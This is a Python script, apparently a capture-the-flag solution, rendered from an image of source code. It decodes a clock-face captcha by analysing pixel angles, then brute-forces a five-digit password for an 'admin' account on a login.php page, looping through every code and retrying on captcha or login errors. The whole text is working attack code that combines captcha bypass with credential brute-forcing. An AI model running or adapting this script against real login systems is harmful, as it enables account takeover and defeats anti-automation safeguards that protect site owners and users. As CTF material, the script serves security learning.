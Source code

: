 ```python
        for y in range(SIZE//5,SIZE-SIZE//5):
            if pixels[x,y] == (0,0,0):
                data[y,x] = 255

    # Getting minutes
    minute_angle = 0
    for theta in np.arange(0,2*np.pi,.01):
        offset = cartesian_from_polar(50,theta)
        if data[(SIZE//2+offset[0], SIZE//2+offset[1])] == 255:
            minute_angle = theta
    minute = (90-int(30*minute_angle/np.pi))%60
    
    hour_angle = -1
    # Getting hours
    for theta in np.arange(0,2*np.pi,.01):
        if np.abs(theta-minute_angle) < np.pi/10:
            continue
        offset = cartesian_from_polar(25,theta)
        if data[(SIZE//2+offset[0], SIZE//2+offset[1])] == 255:
            hour_angle = theta
    if hour_angle == -1:
        hour_angle = minute_angle
    hour = (17-int(6*hour_angle/np.pi))%12

    # img = Image.fromarray(data)
    # img.save("clean.png")

    return (hour,minute)

def post(password, captcha):
    global convert
    data = {
        "username": "YWRtaW4=",
        "password": urlencode(password),
        "captcha": urlencode(captcha)
    }
    r = session.post(url + "/login.php", data=data)
    convert = getPos(r.text)
    if "Wrong captcha" in r.text:
        raise CaptchaException
    if "Bad username/password" in r.text:
        raise LoginException
    return r.text

code = 0
while code < 100000:
    try:
        print(f"Testing code {code:05}")
        download_image(cookie)
        (hour, minute) = get_time()
        print(f"{hour:02}{minute:02}")
        captcha = captcha_from_hour(f"{hour:02}{minute:02}", convert)
    except:
        continue
    try:
        text = post(f"{code:05}", captcha)
    except CaptchaException:
        continue
    except LoginException:
        code += 1
        continue
    except:
        continue
```